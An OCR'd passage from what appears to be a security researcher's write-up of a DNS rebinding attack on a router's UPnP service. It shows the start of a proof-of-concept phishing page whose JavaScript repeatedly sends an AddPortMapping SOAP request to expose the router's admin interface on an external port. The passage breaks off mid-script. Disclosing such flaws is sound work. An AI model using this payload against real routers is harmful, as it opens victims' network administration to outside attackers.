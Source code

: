 ```
    </u:AddPortMappingResponse>
```

```
</s:Body></s:Envelope>
```

The previous SOAP POST request, according to the **AddPortMapping** action specification, exposes the administration web interface running on **192.168.1.1:80** externally on port **8989**, making then it accessible from Internet (if the **NewRemoteHost** is empty, its value is **0.0.0.0** by default).

The requirements are satisfied and, therefore, we can perform a DNS Rebinding attack against the router and inject this custom rule into its port forwarding table. 

The following HTML page was used as Proof of Concept of phishing page. The page was runned on localhost and the attacker domain in this case was **127-0-0-1.192-168-1-1.attacker.mindedsecurity.com**.

The JavaScript code embedded inside the page continuously performs the **AddPortMapping** SOAP POST request via XHR to **http://127-0-0-1.192-168-1-1.attacker.mindedsecurity.com:5431**. 

```
<html>
```

```
<head>
```

```
    <script src="jquery.min.js"></script>
```

```
    <script>
```

```
        var URL = 'http://127-0-0-1.192-168-1-1.attacker.mindedsecurity:5431/control/WANIPConnection'
```

```
​
```

```
        var soapBody ='<?xml version="1.0"?> <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><s:Body><u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1"><NewRemoteHost></NewRemoteHost><NewExternalPort>8989</NewExternalPort><NewProtocol>TCP</NewProtocol><NewInternalPort>80</NewInternalPort><NewInternalClient>192.168.1.1</NewInternalClient><NewEnabled>1</NewEnabled><NewPortMappingDescription>UPnP port mapping PoC</NewPortMappingDescription><NewLeaseDuration>0</NewLeaseDuration></u:AddPortMapping></s:Body></s:Envelope>'
```

```
​
```
